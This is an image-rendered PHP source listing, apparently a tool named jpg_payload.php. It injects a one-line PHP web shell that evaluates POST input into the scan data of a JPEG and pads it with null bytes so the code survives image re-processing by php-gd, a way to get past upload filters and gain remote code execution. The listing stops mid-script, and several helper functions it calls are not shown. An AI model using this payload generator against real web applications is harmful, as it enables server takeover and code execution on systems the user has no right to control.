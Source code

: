 ```
  1<?php
  2$miniPayload = "<?=eval(\$_POST[1]);?>";
  3
  4if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
  5    die('php-gd is not installed');
  6}
  7if(!isset($argv[1])) {
  8    die('php jpg_payload.php <jpg_name.jpg>');
  9}
 10set_error_handler("custom_error_handler");
 11for($pad = 0; $pad < 1024; $pad++) {
 12    $nullbytePayloadSize = $pad;
 13    $dis = new DataInputStream($argv[1]);
 14    $outStream = file_get_contents($argv[1]);
 15    $extraBytes = 0;
 16    $correctImage = TRUE;
 17
 18    if($dis->readShort() != 0xFFD8) {
 19        die('Incorrect SOI marker');
 20    }
 21    while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
 22        $marker = $dis->readByte();
 23        $size = $dis->readShort() - 2;
 24        $dis->skip($size);
 25        if($marker === 0xDA) {
 26            $startPos = $dis->seek();
 27            $outStreamTmp = 
 28                substr($outStream, 0, $startPos) . 
 29                $miniPayload . 
 30                str_repeat("\0",$nullbytePayloadSize) . 
 31                substr($outStream, $startPos);
 32            checkImage('_'.$argv[1], $outStreamTmp, TRUE);
 33            if($extraBytes !== 0) {
 34                while((!$dis->eof())) {
 35                    if($dis->readByte() === 0xFF) {
 36                        if($dis->readByte !== 0x00) {
 37                            break;
 38                        }
 39                    }
 40                }
 41                $stopPos = $dis->seek() - 2;
 42                $imageStreamSize = $stopPos - $startPos;
 43                $outStream = 
 44                    substr($outStream, 0, $startPos) . 
 45                    $miniPayload . 
 46                    substr(
 47                        str_repeat("\0",$nullbytePayloadSize).
 48                            substr($outStream, $startPos, $imageStreamSize),
 49                        0,
 50                        $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
 51                            substr($outStream, $stopPos);
 52            } elseif($correctImage) {
 53                $outStream = $outStreamTmp;
 54            } else {
 55                break;
 56            }
 57            if(checkImage('payload_'.$argv[1], $outStream)) {
 58                die('Success!');
 59            } else {
 60                break;
 61            }
 62        }
 63    }
```